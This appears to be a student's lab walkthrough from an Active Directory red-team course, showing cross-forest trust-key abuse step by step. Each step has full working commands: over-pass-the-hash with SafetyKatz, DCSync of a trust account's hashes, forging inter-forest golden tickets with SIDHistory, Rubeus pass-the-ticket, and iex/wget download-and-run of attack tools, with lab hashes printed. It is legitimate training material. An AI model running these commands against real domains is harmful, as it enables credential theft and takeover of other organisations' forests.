# Hands-on 25: Cross Forest Attacks - Trust Keys

- [Hands-on 25: Cross Forest Attacks - Trust Keys](#hands-on-25-cross-forest-attacks---trust-keys)
  - [Tasks](#tasks)
  - [Access eushare on envendor-dc](#access-eushare-on-envendor-dc)
  - [Access euvendor-net using PowerShell Remoting](#access-euvendor-net-using-powershell-remoting)

---

## Tasks

Using the DA access to eu.local: 
- Access `eushare` on `euvendor-dc`
- Access `euvendor-net` using PowerShell Remoting

<br/>

---

## Access eushare on envendor-dc

Recall in [Hands-on 23: Cross Domain Attacks - Constrained Delegation](l23-XForestConstrainedDelegation.md), we have the credential for `eu\administrator`:

Note:
eu\administrator
- SID: S-1-5-21-3657428294-2017276338-1274645009-500
- AES256: 4e7ba210b76d807429e7ad8b210e103528dcf5db8b9de6b411bf593269955a6d
- NTLM: fe422f818eb7e9c6de5862d94739c2e4

<br/>

First use an elevated shell to perform an over-pass-the-hash to become `eu\administrator`:

```
C:\AD\Tools\SafetyKatz.exe "sekurlsa::pth /domain:eu.local /user:administrator /aes256:4e7ba210b76d807429e7ad8b210e103528dcf5db8b9de6b411bf593269955a6d /run:powershell.exe" "exit"
```

<br/>

Perform a DCSync in the spawned shell to obtain the forest trust key of `euvendor.local`:

```
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:eu\euvendor$ /domain:eu.local" "exit"
```

  

Note:
eu\euvendor$
- SID: `S-1-5-21-3657428294-2017276338-1274645009-1107`
- NTLM: `6ea61970f39a88a2f8709e9268bc5a4c`
- AES256: `b9111b5f59113d3c5145f5e21aebba41733e1e35678f2e08e203bf77f0819be8`

<br/>

To enumerate the trusts information of `eu.local`, we can use https://gallery.technet.microsoft.com/scriptcenter/Get-Active-Directory-2a9e15d2 on the over-pass-the-hash shell:

(Well this is stupid ... `eu-dc` has AD module off-the-land!)

```
winrs -r:eu-dc.eu.local cmd.exe

powershell -ep bypass

iex ((New-Object Net.WebClient).DownloadString("http://192.168.100.64/Get-ADTrustInfo.ps1"))

Get-ADTrustsInfo -DomainName eu.local
```

  

Note:
euvendor.local
- SID: `S-1-5-21-4066061358-3942393892-617142613`

<br/>

In elevated shell, use the above information to forge an inter-forest TGT:

```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat

. C:\AD\Tools\Invoke-Mimikatz.ps1

Invoke-Mimikatz -Command '"kerberos::golden /domain:eu.local /user:administrator /sid:S-1-5-21-3657428294-2017276338-1274645009 /aes256:b9111b5f59113d3c5145f5e21aebba41733e1e35678f2e08e203bf77f0819be8 /service:krbtgt /target:euvendor.local /sids:S-1-5-21-4066061358-3942393892-617142613-519 /ticket:C:\AD\Tools\sharedwitheu.kirbi"'
```

  


<br/>

Note that `euvendor-dc.euvendor.local` is not reachable by the student machine.

In so, transfer the `kirbi` file and `Rubeus.exe` to the `eu-dc`. 

On local machine:

```
cd C:\AD\Tools; python -m SimpleHTTPServer 80
```

On `eu-dc`:

```
cd C:\Users\Public; wget http://192.168.100.64/sharedwitheu.kirbi -OutFile .\sharedwitheu.kirbi; wget http://192.168.100.64/Rubeus.exe -OutFile .\Rubeus.exe
```

  


<br/>

Then on `eu-dc` use **Rubeus.exe** to obtain a TGS and Pass-the-ticket:

```
C:\Users\Public\Rubeus.exe asktgs /ticket:C:\Users\Public\sharedwitheu.kirbi /service:CIFS/euvendor-dc.euvendor.local /dc:euvendor-dc.euvendor.local /ptt
```

  

However, it turns out to be having bad integrity. This could be due to using `aes256` key.

<br/>

Instead, perform the process in `ec-dc`:

```
wget http://192.168.100.64/BetterSafetykatz.exe -OutFile .\BetterSafetykatz.exe
```

```
C:\Users\Public\BetterSafetykatz.exe "kerberos::golden /domain:eu.local /user:administrator /sid:S-1-5-21-3657428294-2017276338-1274645009 /rc4:6ea61970f39a88a2f8709e9268bc5a4c /service:krbtgt /target:euvendor.local /sids:S-1-5-21-4066061358-3942393892-617142613-519 /ticket:C:\Users\Public\sharedwitheu.kirbi" "exit"
```

  


```
C:\Users\Public\Rubeus.exe asktgs /ticket:C:\Users\Public\sharedwitheu.kirbi /service:CIFS/euvendor-dc.euvendor.local /dc:euvendor-dc.euvendor.local /ptt
```

  

<br/>

Then try to access `\\euvendor-dc.euvendor.local\eushare`:

```
ls \\euvendor-dc.euvendor.local\eushare

type \\euvendor-dc.euvendor.local\eushare\shared.txt
```

  

<br/>

---

## Access euvendor-net using PowerShell Remoting

Enumerate trusts on `eu-dc`:

```
Get-ADTrust -Filter *
```

  

- `SIDFilteringForestAware` = `True` means `SIDHistory` is enabled across the forest trust.

<br/>

Only `RID>1000` SIDs are allowed across the trust boundary - Enterprise Admins for example.

```
Get-ADGroup -Server euvendor.local -Filter * | Select Name, SID
```

  

<br/>

We can make use of `EUAdmins` (SID: `S-1-5-21-4066061358-3942393892-617142613-1103`).

Creata a TGT with `SIDHistory` of the group `EUAdmins`:

```
C:\Users\Public\BetterSafetyKatz.exe "kerberos::golden /user:administrator /domain:eu.local /sid:S-1-5-21-3657428294-2017276338-1274645009 /rc4:6ea61970f39a88a2f8709e9268bc5a4c /service:krbtgt /target:euvendor.local /sids:S-1-5-21-4066061358-3942393892-617142613-1103 /ticket:C:\Users\Public\euvendoreuadmin.kirbi" "exit"
```

  

<br/>

Then use `Rubeus.exe` to ptt:

```
C:\Users\Public\Rubeus.exe asktgs /ticket:C:\Users\Public\euvendoreuadmin.kirbi /service:HTTP/euvendor-net.euvendor.local,HOST/euvendor-net.euvendor.local /dc:euvendor-dc.euvendor.local /ptt
```

  

<br/>

Enumerate computers in `euvendor.local`:

```
Get-ADComputer -Filter * -Server euvendor.local | Select name
```

  

```
Invoke-Command -Scriptblock {hostname; whoami} -ComputerName euvendor-net.euvendor.local -Authentication NegotiateWithImplicitCredential
```

  


<br/>


Try to get a powershell session on `euvendor-net`:

```
winrs -r:euvendor-net.euvendor.local powershell.exe
```

  

---